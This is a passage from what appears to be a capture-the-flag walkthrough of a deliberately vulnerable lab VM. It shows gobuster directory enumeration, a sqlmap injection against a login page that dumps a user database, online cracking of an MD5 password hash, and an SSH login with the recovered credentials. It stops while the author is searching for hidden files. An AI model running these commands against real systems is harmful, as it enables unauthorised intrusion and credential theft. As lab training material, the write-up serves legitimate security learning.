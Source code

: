 added the target ip + port as a proxy and navigated to directory.

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552751539414_image.png)


we have a login page

gobuster enumeration of files

    gobuster -u http://127.0.0.1:8080/littlesecrets-main/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -p http://192.168.56.117:31337 -x .php,.bak,.txt

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552752225280_image.png)


discovered `/login.php`, `/logs.php`


Lets try to enter this login page via `sqlmap`

    sqlmap -u http://127.0.0.1:8080/littlesecrets-main/login.php --dbms=mysql --proxy=http://192.168.56.117:31337 --data="user=adm&pass=passw" --dump users --level=5 --risk=3

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552751759637_image.png)


after a bit of time we are able to decode the `pinky_sec_db`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552829310161_image.png)


the hashes look like md5 and with a quick decryption of them at https://www.md5online.org/md5-decrypt.html we have credentials.


    pinky:f543dbfeaf238729831a321c7a68bee4 = [not found on md5online]
    pinkymanage:d60dffed7cc0d87e1f4a11aa06ca73af = 3pinkysaf33pinkysaf3

since it looks like we have a `mange` hash lets try and SSH to box

SSH

    ssh pinkymanage@192.168.56.117 -p 64666

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552830412600_image.png)


sudo -l

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552830448974_image.png)


search for hidden files:


    find ./

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552830650686_image.png)


looks to be an ultrasecret and a note.txt
